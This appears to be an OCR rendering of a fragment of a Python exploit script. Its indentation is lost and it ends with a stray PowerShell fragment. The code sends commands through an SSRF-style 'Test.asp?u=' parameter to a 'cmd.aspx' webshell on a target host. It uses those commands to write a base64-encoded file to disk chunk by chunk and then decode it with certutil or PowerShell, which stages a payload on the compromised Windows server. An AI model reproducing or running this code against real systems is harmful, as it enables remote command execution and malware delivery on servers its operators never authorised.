 ```python

print("MD5 hash: "+md5sum)

print("Data Length: "+str(len(b64enc_data))+" bytes")

client = NoQuotedSession()

client.keep_alive = False

try:

if powershell:

cmd = "powershell -c \"echo $null > '"+remote_path+".b64'\""

else:

cmd = 'type nul > "' + remote_path + '.b64"'

response = client.get("http://"+RHOST+":"+str(RPORT)+"/Test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd="+cmd)

for i in tqdm.tqdm(range(0, len(b64enc_data), BUFFER_SIZE), unit_scale=BUFFER_SIZE, unit="bytes"):

if powershell:

cmd = "powershell -c \"echo '"+b64enc_data[i:i+BUFFER_SIZE]+"' >> '"+remote_path+".b64'\""

else:

cmd = 'echo '+b64enc_data[i:i+BUFFER_SIZE].replace('+', '%25%32%62').replace('/', '%25%32%66')+' >> "' + remote_path + '.b64"'

response = client.get("http://"+RHOST+":"+str(RPORT)+"/Test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd="+cmd)

if powershell:

cmd = "powershell -c \"[System.Convert]::FromBase64String((Get-Content '"+remote_path+".b64').Replace('-', '%25%32%62').Replace('_', '%25%32%66')) | Set-Content -Encoding Byte '"+remote_path+"'\""

else:

cmd = 'certutil -f -decode "' + remote_path + '.b64" "' + remote_path + '"'

response = client.get("http://"+RHOST+":"+str(RPORT)+"/Test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd="+cmd)

except requests.exceptions.RequestException as e:

print(str(e))

finally:

if client:

client.close()

def clear_buffer(sock):

try:

while sock.recv(1024): pass
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"